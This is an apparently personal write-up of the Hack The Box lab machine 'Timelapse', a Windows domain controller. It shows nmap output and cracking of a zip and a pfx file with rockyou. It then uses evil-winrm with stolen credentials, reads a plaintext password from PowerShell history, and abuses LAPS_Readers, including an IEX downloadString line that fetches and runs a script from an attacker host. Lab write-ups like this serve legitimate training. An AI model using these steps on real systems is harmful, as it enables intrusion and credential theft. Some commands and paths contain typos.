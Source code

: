 ## Enumeration
---
title: Timelapse Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---

```java
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-02-07 18:36:24Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ldapssl?
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open globalcatLDAPssl?
5986/tcp open ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=dc01.timelapse.htb
|_Not valid before: 2021-10-25T14:05:29
|_Not valid after: 2022-10-25T14:25:29
|_ssl-date: 2023-02-07T18:37:54+00:00; +7h59m59s from scanner time.
|_ tls-alpn: 
|_ http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49673/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49674/tcp open msrpc Microsoft Windows RPC
49695/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
| 311: 
|_ Message signing enabled and required
| smb2-time: 
| date: 2023-02-07T18:37:16
|_ start_date: N/A
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m58s
```

## User Exploit

We connect via `smbclient` to the Shares and we can see a file called winrm_backup.zip, so we go to download it.

But we are asked for a password to download it, so we are going to use `john` : 
```shell
zip2john winrm_backup.zip > zip.john
john zip.john -wordlist:/usr/share/wordlists/rockyou.txt
supremelegacy (winrm_backup.zip/legacyy_dev_auth.pfx)     
Session completed. 
```

Unzipping the .zip will leave us with a pfx file, which we have to crack again using `crackpkcs12`:
```shell
crackpkcs12 -b -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx
*********************************************************
Dictionary attack - Thread 9 - Password found: thuglegacy
*********************************************************
```

And we get the key:
```shell
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes
openssl openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

And as port 5985 is open, let's connect via WinRM to the victim machine
````shell
evil-winrm -i 10.129.165.115 -c cert.pem -k priv-key.pem -S
```

Once inside, let's read the history:
```PowerShell
C:\Usersers documentation> type $env:APPDATA\MicrosoftWindows\PowerShell\PsReadLine\ConsoleHost_history.txt
```

Which reports the following information:
```PowerShell
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
```

So we can get some credentials: `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`.

So we are going to use them to login again by evil-winrm

```shell
evil-winrm -i 10.129.165.115 -u svc_deploy -p ``E3R$Q62^12p7PLlC%KWaxuaV` -S
```

Once inside, let's see which group the svc_deploy user belongs to:
```powershell
net user svc_deploy 
```
And we see that we put:

```powershell
Local Group Memberships *Remote Management Use
Global Group memberships *LAPS_Readers *Domain Users
```

## Root Exploit

As we are part of LAPS_Readers, we are going to use it for privilege escalation. To do this, we download it on our local machine and pass it to the windows:
```powershell
C:\Usershell> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.46:8000/Get-LAPSPasswords.ps1')
```

And we simply execute it, and we will be able to see the credentials.

Let's see if the password is valid for the Administrator user:
```shell
crackmapexec smb 10.129.165.115 -u 'Administrator' -p 'xiTR4G}SJ!;@8965dpv}51f-'
```

And we see that it is, so we are going to connect through `evil-winrm` and we will be able to see the root flag on the desktop of the TRX user. 

